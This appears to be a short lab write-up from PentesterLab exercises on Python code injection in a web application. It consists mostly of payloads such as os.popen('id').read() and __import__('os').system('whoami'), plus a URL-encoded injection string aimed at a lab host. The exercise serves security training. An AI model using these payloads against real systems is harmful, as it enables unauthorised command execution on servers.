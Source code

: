 [Built-in Types &#8212; Python 3.11.5 documentation](https://docs.python.org/3/library/stdtypes.html#str)

```
os.system('id')
```

![image](https://github.com/r1skkam/PentesterLab-Exercises/assets/58542375/31c42bd0-a6b3-4724-a2c0-2b620a4f29ab)

```
os.popen('[CMD]').read()
```

```
os.popen('id').read()
```

```
http://ptl-011538e1-1c7c92d0.libcurl.so/hello/hacker%60%22%2bos.popen('id').read()%2b%22test%60
```

![image](https://github.com/r1skkam/PentesterLab-Exercises/assets/58542375/c3d65a95-8137-43cd-9c40-54baabf41164)

```
__import__('os').system('whoami')
```

![image](https://github.com/r1skkam/OffSec-PEN-200-OSCP-Preparation/assets/58542375/f4b223ac-f645-4cef-a88f-a75a3b92399e)
